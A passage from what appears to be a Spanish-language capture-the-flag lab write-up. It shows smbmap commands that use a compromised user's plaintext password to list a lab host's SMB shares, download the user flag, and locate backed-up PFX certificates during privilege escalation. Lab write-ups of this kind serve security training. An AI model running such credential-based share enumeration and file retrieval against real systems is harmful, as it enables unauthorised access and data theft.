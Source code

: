 {% code overflow="wrap" %}
```bash
smbmap -H 10.10.11.129 --no-banner -u 'Sierra.Frye' -p '$$49=wide=STRAIGHT=jordan=28$$18' -r 'RedirectedFolders$/Sierra.Frye'

smbmap -H 10.10.11.129 --no-banner -u 'Sierra.Frye' -p '$$49=wide=STRAIGHT=jordan=28$$18' --download 'RedirectedFolders$/Sierra.Frye/user.txt'

mv 10.10.11.129-RedirectedFolders_Sierra.Frye_user.txt user.txt

catnp user.txt
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/2583_vmware_vBHQXB39tX.png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Playing with FFX certificates

Revisando los recursos copartidos del nuevo usuario "Sierra.Frye" revisamos que en la carpeta de "Downloads" hay una carpeta llamado Backups" que dispone de 2 archivos PFX que se tratan de certificados de navegador.

{% code overflow="wrap" %}
```bash
smbmap -H 10.10.11.129 --no-banner -u 'Sierra.Frye' -p '$$49=wide=STRAIGHT=jordan=28$$18' -r 'RedirectedFolders$/Sierra.Frye/Downloads'

smbmap -H 10.10.11.129 --no-banner -u 'Sierra.Frye' -p '$$49=wide=STRAIGHT=jordan=28$$18' -r 'RedirectedFolders$/Sierra.Frye/Downloads/Backups'
```
{% endcode %}

